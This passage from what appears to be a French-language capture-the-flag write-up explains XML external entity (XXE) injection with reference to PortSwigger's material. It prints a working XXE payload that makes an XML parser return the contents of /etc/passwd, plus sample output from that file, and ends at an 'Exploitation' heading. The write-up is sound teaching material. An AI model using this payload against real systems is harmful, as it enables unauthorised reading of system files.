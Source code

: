 ![Desktop View](/assets/img/20250427/mission-04-portswigger-xxe.png){: width="572" height="400" }
_[source : portswigger](https://portswigger.net/web-security/xxe)_

et voici comment un fichier XML malveillant peut être modifié pour fuiter le contenu de /etc/passwd : 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
>This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file: 

```plaintext
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
## 💣 Exploitation


[mission06]: /posts/DGSE-CTF-OSINT